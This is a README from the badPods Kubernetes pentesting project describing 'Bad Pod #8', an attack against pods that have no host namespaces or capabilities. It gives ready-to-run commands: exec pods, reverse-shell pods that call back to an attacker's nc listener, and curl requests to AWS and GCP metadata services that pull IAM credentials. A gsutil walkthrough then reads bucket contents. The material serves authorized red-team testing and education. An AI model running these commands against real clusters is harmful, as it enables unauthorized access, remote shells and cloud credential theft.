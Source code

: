 # Bad Pod #8: Nothing allowed

The pod security policy or admission controller has blocked access to all of the host's namespaces and restricted all capabilities. **Do not despair**, especially if the target cluster is running in a cloud environment. 

## Table of Contents
- [Pod creation & access](#pod-creation--access)
  - [Exec pods](#exec-pods)
  - [Reverse shell pods](#reverse-shell-pods)
- [Post exploitation](#post-exploitation)
- [Reference(s):](#references)

# Pod creation & access

## Exec pods
Create one or more of these resource types and exec into the pod

**Pod**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/nothing-allowed/pod/nothing-allowed-exec-pod.yaml
kubectl exec -it nothing-allowed-exec-pod -- bash
```
**Job, CronJob, Deployment, StatefulSet, ReplicaSet, ReplicationController, DaemonSet**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 

```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/nothing-allowed/[RESOURCE_TYPE]/nothing-allowed-exec-[RESOURCE_TYPE].yaml 
kubectl get pods | grep nothing-allowed-exec-[RESOURCE_TYPE]      
kubectl exec -it nothing-allowed-exec-[RESOURCE_TYPE]-[ID] -- bash
```

*Keep in mind that if pod security policy blocks the pod, the resource type will still get created. The admission controller only blocks the pods that are created by the resource type.* 

To troubleshoot a case where you don't see pods, use `kubectl describe`

```
kubectl describe nothing-allowed-exec-[RESOURCE_TYPE]
```

## Reverse shell pods
Create one or more of these resources and catch the reverse shell

**Step 1: Set up listener**
```bash
nc -nvlp 3116
```

**Step 2: Create pod from local manifest without modifying it by using env variables and envsubst**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 
* Replace the HOST and PORT values to point the reverse shell to your listener
* 
```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/nothing-allowed/[RESOURCE_TYPE]/nothing-allowed-revshell-[RESOURCE_TYPE].yaml | kubectl apply -f -
```

**Step 3: Catch the shell**
```bash
$ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

# Post exploitation

## Cloud metadata
If cloud hosted, try to access the cloud metadata service. You might get access to the IAM credentials associated with the node, or even just a cloud IAM credential created specifically for that pod. In either case, this can be your path to escalate within the cluster, within the cloud environment, or both.
### AWS
```bash
curl http://169.254.169.254/latest/user-data #Look for credentials or bucket names
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ #List's role name
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME] # Get creds
```
### GCP
Test to see if you have access to the metadata service:
```
curl -H "Metadata-Flavor: Google" 'http://metadata/computeMetadata/v1/instance/'
126817330210-compute@developer.gserviceaccount.com/
default/
```


**See permissions assigned to default service account**
```
curl -H 'Metadata-Flavor:Google' http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/
https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring
https://www.googleapis.com/auth/servicecontrol
https://www.googleapis.com/auth/service.management.readonly
https://www.googleapis.com/auth/trace.append
```

If you can query the metadata service, you can proceed with curl, but I suggest deploying another pod with the `gcr.io/google.com/cloudsdktool/cloud-sdk:latest` image. This allows you to use `gcloud` and `gsutil` as the node.

Something like this: 

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: nothing-allowed-gcloud-pod
  labels:
    app: pentest
spec:
  containers:
  - name: nothing-allowed-pod
    image: gcr.io/google.com/cloudsdktool/cloud-sdk:latest
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
```

**Example: Find buckets, list objects, and read file contents**
```
root@nothing-allowed-gcloud-pod:/# gsutil ls
gs://playground-test123/

root@nothing-allowed-gcloud-pod:/# gsutil ls gs://playground-test123
gs://playground-test123/luggage_combination.txt

root@nothing-allowed-gcloud-pod:/# gsutil cat gs://playground-test123/luggage_combination.txt
12345
```

An awesome GCP privesc reference: https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/



## Overly permissive service account
If the default service account is mounted to your pod and is overly permissive, you can use that token to further escalate your privs within the cluster.

## Anonymous-auth
If either [the apiserver or the kubelets have anonymous-auth set to true](https://labs.f-secure.com/blog/attacking-kubernetes-through-kubelet/), and there are no network policy controls preventing it, you can interact with them directly without authentication. 

## Exploits
Is the kubernetes version vulnerable to an exploit, i.e. [CVE-2020-8558](https://github.com/tabbysable/POC-2020-8558)
## Traditional vulnerability hunting
Your pod will be able to see a different view of the network services running within the cluster than you likely can see from the machine you used to create the pod. You can hunt for vulnerable services by proxying your traffic through the pod. 

   [This write-up of a CTF challenge](https://keramas.github.io/2020/08/10/Recon-Village-CTF-at-DC28.html) created by Madhu Akula demonstrates a pretty common post exploitation pattern



# Reference(s): 

* https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/
* https://securekubernetes.com/
* https://madhuakula.com/kubernetes-goat/
* https://labs.f-secure.com/blog/attacking-kubernetes-through-kubelet/
* https://research.nccgroup.com/2020/02/12/command-and-kubectl-talk-follow-up/
* https://github.com/tabbysable/POC-2020-8558
